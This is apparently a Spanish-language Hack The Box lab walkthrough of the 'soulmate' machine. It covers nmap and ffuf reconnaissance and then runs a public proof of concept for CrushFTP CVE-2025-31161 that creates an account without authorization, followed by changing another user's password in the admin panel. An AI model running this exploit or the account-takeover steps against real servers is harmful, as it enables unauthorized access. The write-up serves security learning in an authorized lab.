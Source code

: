 # Metodologías de ataque

Creamos nuestra carpeta con el nombre de la maquina `soulmate` y dentro crearemos las subcarpetas para cada fase `content, exploits, nmap, scripts`

Revisamos la conexion a la ip

```bash
ping -c 2 10.10.11.86
```
Respuesta:
<pre>
PING 10.10.11.86 (10.10.11.86) 56(84) bytes of data.
64 bytes from 10.10.11.86: icmp_seq=1 ttl=63 time=139 ms
64 bytes from 10.10.11.86: icmp_seq=2 ttl=63 time=141 ms

--- 10.10.11.86 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 139.407/139.959/140.511/0.552 ms
</pre>

Teniendo la respuesta ingresamos a la ip que nos entrega HTB, en mi caso es la 10.10.11.86

Nos indica que no pudo resolver soulmate.htb

![No se puede acceder a este sitio](../../assets/1.Ver pagina.png)

Ingresamos al archivo hosts e ingresamos la ip y el dominio que nos indica en la pagina

```bash
sudo nano /etc/hosts
```

<pre>
10.10.11.86 soulmate.hth
</pre>

Recargamos la pagina y deberiamos ya poder ver el inicio:

![Index](../../assets/2. Inicio pagina.png)


Realizamos un escaneo en nmap y en paralelo haremos escaneos de directorios y subdominios

## Escaneo previo
**Full TCP (nmap):**
```bash
nmap -vvv -sS -p- --min-rate 1000 -n -Pn 10.10.11.86 -oG nmap/allPorts
```

Respuesta:
<pre>
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-28 13:38 -03
Initiating SYN Stealth Scan at 13:38
Scanning 10.10.11.86 [65535 ports]
Discovered open port 22/tcp on 10.10.11.86
Discovered open port 80/tcp on 10.10.11.86
Increasing send delay for 10.10.11.86 from 0 to 5 due to 382 out of 1272 dropped probes since last increase.
Increasing send delay for 10.10.11.86 from 5 to 10 due to max_successful_tryno increase to 4
Completed SYN Stealth Scan at 13:38, 15.04s elapsed (65535 total ports)
Nmap scan report for 10.10.11.86
Host is up, received user-set (0.26s latency).
Scanned at 2025-09-28 13:38:09 -03 for 15s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
</pre>

Vemos que tenemos 2 puertos, usaremos esos para escanearlos

## Escaneo de servicios
**Servicios + scripts:**
```bash
nmap -v -sC -sV --min-rate 1000 -p 22,80 -n 10.10.11.86 -oG nmap/targeted
```

<pre>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soulmate.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>

## Fuzzing de directorios web
```bash
ffuf -w /usr/share/wordlists/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://soulmate.htb/FUZZ -o content/dirs-soulmate.json -of json -t 25 -fw 6110
```

Respuesta:

<pre>
assets                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 140ms]

</pre>

## Fuzzing de subdominios / vhosts
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://soulmate.htb -H "Host: FUZZ.soulmate.htb" -o content/domains-soulmate.json -of json -t 25
```

Respuesta:

<pre>
ftp                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 228ms]
</pre>

## Fuzzing de archivos

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://soulmate.htb/assets/FUZZ -e .php,.html,.bak,.txt -recursion -recursion-depth 2 -mc 200,301,302 -fc 404 -t 25 -ocontent/extensions-soulmate.jsonn -of json 
```

Respuesta:

<pre>
css                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 139ms]
[INFO] Adding a new job to the queue: http://soulmate.htb/assets/css/FUZZ

images                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 140ms]
[INFO] Adding a new job to the queue: http://soulmate.htb/assets/images/FUZZ

[INFO] Starting queued job on target: http://soulmate.htb/assets/css/FUZZ

[INFO] Starting queued job on target: http://soulmate.htb/assets/images/FUZZ

profiles                [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 138ms]
[INFO] Adding a new job to the queue: http://soulmate.htb/assets/images/profiles/FUZZ

[INFO] Starting queued job on target: http://soulmate.htb/assets/images/profiles/FUZZ

:: Progress: [23615/23615] :: Job [4/4] :: 197 req/sec :: Duration: [0:01:36] :: Errors: 0 ::
</pre>

Ingresamos a cada uno de los directorios para verificar algun heartbleed pero no se obtiene nada favorable.

Intentamos acceder al ftp del sitio: ftp.soulmate.htb

![FTP server](../../assets/3. ftp-site.png)

Agregamos el ftp al archivo hosts.

```bash
sudo nano /etc/hosts
```

<pre>
10.10.11.86 soulmate.htb ftp.soulmate.htb
</pre>

recargamos la pagina y ya deberiamos tener acceso al ftp

![CrushFTP login](../../assets/4. ftp-site-login.png)

En caso de no cargar probar con la combinacion de teclas Ctrl+F5 para recargar cache.

Dentro de la pagina hacemos una inspeccion de código y verificamos que la version del CrushFTP es la `v11.W.657`

Realizamos una busqueda en google y validamos la vulnerabilidad: "11.W.657 CRUSHFTP Vuln"

y encontramos el CVE de la vulnerabilidad: CVE-2025-31161

Fuente: https://s2grupo.es/vulnerabilidades-crushftp-2025/

Realizamos otra busqueda en google con la CVE: CVE-2025-31161 y vemos que en github hay una POC en python para usarse

![POC-CrushFTP](../../assets/5. POC-CrushFTP.png)

Descargamos la POC y la ejecutamos:

```bash
cd exploits
git clone https://github.com/Immersive-Labs-Sec/CVE-2025-31161.git
python3 cve-2025-31161.py
```
Respuesta:

<pre>
[-] Target host not specified
usage: cve-2025-31161.py [-h] [--target_host TARGET_HOST] [--port PORT] [--target_user TARGET_USER] [--new_user NEW_USER] [--password PASSWORD]

Exploit CVE-2025-31161 to create a new account

options:
  -h, --help            show this help message and exit
  --target_host TARGET_HOST
                        Target host
  --port PORT           Target port
  --target_user TARGET_USER
                        Target user
  --new_user NEW_USER   New user to create
  --password PASSWORD   Password for the new user

</pre>

Nos pide ingresar los datos en este orden (probaremos con el usuario root que es el mas común):

```bash
python3 --target_host http://ftp.soulmate.htb --port 80 --target_user root --new_user prueba --password admin123
```

Respuesta:

<pre>
[+] Preparing Payloads
  [-] Warming up the target
  [-] Target is up and running
[+] Sending Account Create Request
  [!] User created successfully
<strong>[+] Exploit Complete you can now login with
   [*] Username: prueba
   [*] Password: admin123.</strong>
</pre>

Tenemos el usuario creado, ahora validamos el acceso:

![Dentro de CrushFTP](../../assets/6. Dentro de CrushFTP.png)

Empezamos a navegar en el portal y lo primero que vemos es la opcion de Admin, dentro de esta opcion navegamos por el menu hasta que llegamos a la parte de User Manager. Donde podemos ver los usuarios registrados hasta el momento.

Probaremos con el primer usuario a ver si le podemos cambiar la password y presionamos en Save:

![Cambio de pass de usuario](../../assets/7. Cambiar password a usuario.png)


> **Recordatorio:** documentar comandos, salidas y autorización es obligatorio. Uso exclusivo en entornos autorizados.
